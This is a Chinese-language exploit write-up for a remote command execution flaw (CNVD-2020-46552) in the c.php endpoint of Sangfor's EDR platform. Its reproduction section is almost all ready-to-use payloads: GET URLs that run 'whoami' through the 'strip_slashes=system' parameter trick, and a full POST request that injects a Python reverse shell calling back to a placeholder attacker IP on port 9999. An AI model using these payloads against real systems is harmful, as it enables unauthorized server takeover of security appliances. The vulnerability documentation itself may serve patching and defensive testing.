

深信服 EDR c.php 远程命令执行漏洞 CNVD-2020-46552¶
漏洞描述¶
深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。
漏洞影响¶
EDR v3.2.16
EDR v3.2.17
EDR v3.2.19
漏洞复现¶
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&limit=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&path=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&row=whoami

反弹shell
POST /tool/log/c.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 256
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
向 /tool/log/c.php POST以下数据即可
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'